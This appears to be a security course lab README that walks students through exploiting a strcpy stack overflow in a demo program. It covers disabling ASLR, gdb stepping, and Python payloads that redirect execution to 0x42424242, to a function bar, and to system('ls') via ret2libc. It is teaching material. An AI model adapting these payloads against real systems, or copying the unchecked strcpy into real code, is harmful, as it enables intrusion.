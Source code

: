 # CYBER 366

## Prerequisites
#### disable address space layout randomization
``` bash
sudo bash -c "echo 0 > /proc/sys/kernel/randomize_va_space"
```

#### compile the demo program
``` bash
make
```

> note: to have a better debugging experience, you can compile the demo with debug information inside. Please check the Makefile for details.

## vulnerability
``` c
int foo(char str2[]){
	char array[4];
	strcpy(array, str2);
	return 1;
}
```
`strcpy` doesn't check the boundary of the destination. The overflow occurs as long as the size of source buffer is larger than the destination. Here, the size of destination is 4, which could be smaller than the size of `str2`.

## Debugging
### hijack the control flow
After attaching gdb to the demo, pass input to the demo by running 
```bash=
start `cat hijack_to_BBBB_payload`
```

![](https://i.imgur.com/QyBWQ7J.png)

Go through the statement. 

![](https://i.imgur.com/t78Uhz7.png)

Check the stack memory layout before the return of function foo.

![](https://i.imgur.com/IL9cx1P.png)

You should be able to run the program instruction by instruction using `ni`.

![](https://i.imgur.com/rtxyd23.png)

Now we are at the `ret` instruction of function `foo`, check the stack for the target we are returning to.

![](https://i.imgur.com/KPfRAsl.png)

When you continue executing, you will see the program has been hijacked to `0x42424242`

![](https://i.imgur.com/Q84OFJA.png)


#### How to generate the payload for this hijacking?
```bash=
python -c "print('A'*16 + 'BBBB')" > hijack_to_BBBB_payload
```
### hijack to print hello
Now we are able to hijack the control flow to arbitrary address, so we are able to let the program print `hello` if we hijack the control flow to function `bar`.

Just like hijacking to 0x42424242, check the adress on the stack that we are returning to in function `foo`.

#### How to generate the payload for this hijacking?
```bash=
python -c "print('A'*16 + '\x86\x84\x04\x08')" > hello_payload
```
> `\x86\x84\x04\x08` is the address of function `bar`

### Hijack to list the files
To list the files, we need to craft the payload of ROP that can execution 
```bash=
system("ls")
```

By checking the stack memory layout before the return in function `foo`, we see the memory looks like the following.

![](https://i.imgur.com/xNCKwoE.png)

Where we are jumping to the `0x08048330`, which is `system` function, with the argument referencing to `0x0804a07c`.


#### How to generate the payload for this hijacking?
```bash=
python -c "print('A'*16 + '\x30\x83\x04\x08' + 'BBBB' + '\x7c\xa0\x04\x08'+'ls')" > system_ls_payload
```
> '\x30\x83\x04\x08' is the address of `system`, 'BBBB' is left for padding, '\x7c\xa0\x04\x08' is the address of string `ls`.


## What to submit
Please take screenshot of each steps.
